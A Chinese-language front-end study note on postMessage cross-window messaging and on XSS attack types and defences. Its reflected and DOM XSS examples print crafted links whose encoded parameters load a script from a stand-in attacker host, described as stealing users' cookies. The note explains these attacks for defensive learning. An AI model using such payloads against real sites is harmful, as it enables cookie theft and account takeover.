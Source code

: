 #### postMessage 实现页面间通信

语法：`otherWindow.postMessage(message, targetOrigin, [transfer])`

接收消息：`window.addEventListener("message", receiveMessage, false)`

```js
function receiveMessage(event) {
  //some code
}
```

> 如果不是使用 `window.open()` 打开的页面或者 `iframe` 嵌入的页面，就跟当前页面扯不上任何关系，是无法使用 `window.postMessage()` 进行跨域通信的！

> `window.postMessage()` 中的 `window` 始终是你要通信的目标页面的 `window`，也就是 `PageA` 想法发送信息到 `PageB` 那么这个 `window` 就是 `PageB` 的 `window` 即 `iframe.contentWindow`，相反就是 `top` 或 `parent`。

> 一个很方便的回复消息的方式就是通过 `event.source` 来回复，`event.source` 就是发送消息的窗体。

## 安全

### XSS(Cross-site Scripting，跨站脚本攻击)

#### 类型

- 存储型 `XSS` 攻击
  注入的攻击脚本永久存储在数据库，持久化。比如系统没有对用户的输入做过滤，可以插入一段自动发送网站 `cookie` 的脚本，当其他人打开包含这段信息的页面时就会自动获取隐私信息了，攻击的是多人。

- 反射型 `XSS` 攻击
  非持久化的，需要欺骗用户自己去点击链接才能触发 `XSS` 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。比如我们知道服务器会将搜索的关键词直接显示，我们就构造一个 `XSS` 的链接(`<a href="http://xsstest.qq.com/search.php?q=%3Cscript src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E&commend=all&ssid=s5-e&search_type=item&atype=&filterFineness=&rr=1&pcat=food2011&style=grid&cat=">点击就送998</a>`)，这样就能将该用户的在该网站的 `cookie` 获取到了。这是针对单人的。

- DOM 型 `XSS` 攻击
  和反射性非常类似，不过是不需要经过服务器的，比如网站有个脚本是直接获取用户输入的 `url` 中的某个参数如 `content`，那么就可以伪造一个 `XSS` 的链接(`<a href="http://example.com?content="%3Cscript src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E">`)从而完成 `XSS` 攻击，这种攻击也是单人的，只不过服务器设置的 `XSS` 防御就不起作用了，所以需要 **前端同时防范**。

#### 防御

`XSS` 防御的总体思路是：对输入(和 `URL` 参数)进行过滤，对输出进行编码。这里推荐 `OWASP`。

- `HttpOnly`
  `Set-Cookie: =[; =][; expires=][; domain=][; path=][; secure][; HttpOnly]`，如果 `Cookie` 具有 `HttpOnly` 特性且不能通过客户端脚本访问，则为 `true`；否则为 `false`。默认值为 `false`。

- 过滤
  对诸如`<script>`、`<img>`、`<a>` 等标签进行过滤。

- 编码
  像一些常见的符号，如 `<`、`>` 在输入的时候要对其进行转换编码。

- 限制
  `XSS` 攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。
